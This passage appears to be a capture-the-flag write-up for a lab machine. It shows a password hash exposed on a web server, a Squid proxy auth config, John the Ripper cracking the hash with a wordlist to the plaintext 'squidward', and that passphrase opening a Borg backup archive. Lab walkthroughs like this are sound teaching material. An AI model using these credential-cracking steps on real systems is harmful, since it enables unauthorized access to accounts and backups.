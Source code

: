 >>Found this file with this url below
>>URL:http://10.10.92.216/etc/passwd

```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

>>Found this file with this url below
>>URL:http://10.10.92.216/etc/squid.conf

```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

## CRACKING 

>>Cracking the hash we found in the /etc directory of the webpage.

```bash
root@ip-10-10-205-252:~# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
Use the "--format=md5crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
1g 0:00:00:00 DONE (2022-01-09 13:34) 2.777g/s 108266p/s 108266c/s 108266C/s 112704..salsabila
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

>>In the admin page there is a downloadable tar file and it is bor backups repo.
>>We found the password for alex with the passphrase we found by cracking.

```bash
root@ip-10-10-205-252:~# tar -xvf archive.tar 
home/field/dev/final_archive/
home/field/dev/final_archive/hints.5
home/field/dev/final_archive/integrity.5
home/field/dev/final_archive/config
home/field/dev/final_archive/README
home/field/dev/final_archive/nonce
home/field/dev/final_archive/index.5
home/field/dev/final_archive/data/
home/field/dev/final_archive/data/0/
home/field/dev/final_archive/data/0/5
home/field/dev/final_archive/data/0/3
home/field/dev/final_archive/data/0/4
home/field/dev/final_archive/data/0/1

root@ip-10-10-205-252:~# cat home/field/dev/final_archive/README 
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/

root@ip-10-10-205-252:~# borg list final_archive
Enter passphrase for key /data/Cyborg/files/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 15:00:38 
[f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]

```